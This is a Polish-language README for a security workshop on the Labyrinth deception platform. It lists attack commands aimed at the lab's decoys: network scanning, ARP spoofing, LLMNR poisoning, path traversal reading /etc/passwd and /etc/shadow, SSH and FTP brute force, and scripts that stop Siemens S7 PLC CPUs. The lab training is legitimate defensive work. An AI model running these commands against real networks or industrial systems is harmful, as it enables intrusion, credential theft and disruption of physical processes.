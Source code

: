 # Witamy na Advanced Threat Summit 2023

Wszystko, czego możesz potrzebować podczas warsztatów, jest dostępne w tym repozytorium.

## Uzyskiwanie dostępu
Na początek przejdź do naszego stanowiska testowego:

1. **Poświadczenia do AdminVM** - możesz użyć dowolnej przeglądarki internetowej:
```
URL: 
Username:
Password:  
```
2. **Poświadczenia do atakującego hosta** - z tego hosta będziesz przeprowadzać ataki. Użyj SSH i następujących
Poświadczeń: 
```
Host:
Username:
Password:
```
## Terminologia, która będzie dzisiaj używana
Ze względu na fakt, że dziś używamy platformy Labyrinth Deception jako przykładu platformy cyber decepcji, ma ona swoje własne terminy, które będą dziś aktywnie wykorzystywane::

1.	**Point (Punkt)** = wabik sieciowy, przynęta, spreparowane usługi sieciowe.
> [!NOTE]
> Punkt NIE JEST oddzielną maszyną wirtualną.

2.	**Honeynet** = segment sieci, w którym działają Punkty. Służy do określenia sieci VLAN, w której mają działać Punkty.

3.	**Seeder	Tasks** = wabiki plikowe, nawigacja okruszkowa używana do logicznego łączenia prawdziwej i spreparowanej infrastruktury.

4.	**Seeder Agent** = program, który rozprowadza Seeder Tasks na rzeczywistych hostach.
5. **AdminVM (konsola zarządzania)** = główny moduł kontrolujący system.
6. **WorkerVM (węzeł roboczy)** = węzeł, na którym uruchomione są Punkty.

## Transkrypcja poleceń
Ponadto udostępniamy transkrypcję wszystkich poleceń, aby ułatwić korzystanie z nich. Nawet jeśli przegapiłeś jakąkolwiek część prezentacji, możesz skorzystać z tych notatek, aby kontynuować ćwiczenia.

> [!IMPORTANT]
> **<any data>** wskazuje, że należy wkleić własne dane, które są wymienione wewnątrz nawiasów.
>
> **[options]** wskazuje, że ta część (lub części) polecenia jest opcjonalna i może zostać pominięta. Wybór wielu opcji jest wyświetlany za pomocą / (ukośnika).

#### Przypadek 1: wykrywanie skanowania sieci
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```
#### Przypadek 2: łączenie się z hostem przy użyciu danych z wabików plikowych (breadcrumbs)

1. Przejdź do Seeder Agents -> Tasks
2. Wybierz ssh_txt_credentials lub ssh_config z listy
3. Kliknij w trzykropek, a następnie Details
4. Użyj tych poświadczeń, aby się zalogować:
```
ssh <user>@<Point IP>
```
#### Przypadek 3: ARP spoofing

```
sudo ettercap -i <interface> -T -M arp /<host 1>// /<host2>//
```
Alternatywnie można użyć bettercap:
```
sudo bettercap
net.probe on
net.show
set arp.spoof.targets <Point IP>
set arp.spoof.fullduplex false
arp.spoof on
// after some time
arp.spoof off
```
Odnośnik: [ettecap](https://www.ettercap-project.org/) i [bettercap](https://github.com/bettercap/bettercap) source

#### Przypadek 4: LLMNR / NBT-NS Poisoning

W tym celu użyjemy programu *Responder*. Jest on już zainstalowany. Wszystko, co musisz zrobić, to uruchomić polecenie:
```
cd Responder
sudo python2 Responder.py -I eth0
```
Odnośnik: [Responder source](https://github.com/SpiderLabs/Responder)

#### Przypadek 5: S7comm Malformed PDU

W tym przypadku istnieje skrypt dostępny w tym repozytorium - wystarczy go uruchomić:

```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py -a <Point IP>
```
Lub:
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```

#### Przypadek 6: Lokalne dołączanie plików
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
#### [Zaawansowany] Przypadek 7: ponowne użycie poświadczeń

1. Znajdź serwer WWW
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
2. Wykonaj LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
Lub:
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```
3. Skonfiguruj listę słów
```
cd wordlists
nano brute.dict
```
4. Wykonaj bruteforce SSH
```
hydra -l <username> -P brute.dict <IP of the ssh host> ssh -t 4 
```
5. Zaloguj się do hosta
```
ssh <user>@<Point IP>
```
6. Ponowne użycie poświadczeń do połączenia z innym hostem
```
ssh <user>@warrior.labyrinth.tech
```

#### [Zaawansowany] Przypadek 8: atakowanie sieci przemysłowych

1. Przeszukanie sieci w poszukiwaniu serwera FTP
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Połącz się z serwerem FTP
Spróbuj połączyć się anonimowo:
```
ftp <FTP IP address>
```
Wykonaj bruteforce FTP:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Sprawdź znaleziony plik
```
ls -la
less <file>
```
4. Wykonać żądanie sterowania CPU S7comm
```
cd S7_scripts
python2 s7300stop.py 172.16.132.4
```
Ponadto można spróbować uruchomić komunikat startowy CPU:
```
python2 s7300cpustart.py 172.16.132.2
```

Odnośnik: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## Informacje o platformie Labyrinth 
Labyrinth to zespół doświadczonych inżynierów cyberbezpieczeństwa i testerów penetracyjnych, który specjalizuje się w opracowywaniu rozwiązań do wczesnego wykrywania i zapobiegania cyberzagrożeniom.

Techniki decepcji zapewniają atakującym zasadniczą przewagę nad obrońcami, którzy nie są w stanie przewidzieć kolejnego ruchu napastników. **NASZĄ WIZJĄ** jest przesunięcie układu sił na korzyść obrońców.

**NASZĄ MISJĄ** jest dostarczenie wszelkiego rodzaju organizacjom prostego i wydajnego narzędzia do jak najwcześniejszego wykrywania napastników wewnątrz sieci korporacyjnej.

Więcej informacji o platformie: https://labyrinth.tech/ 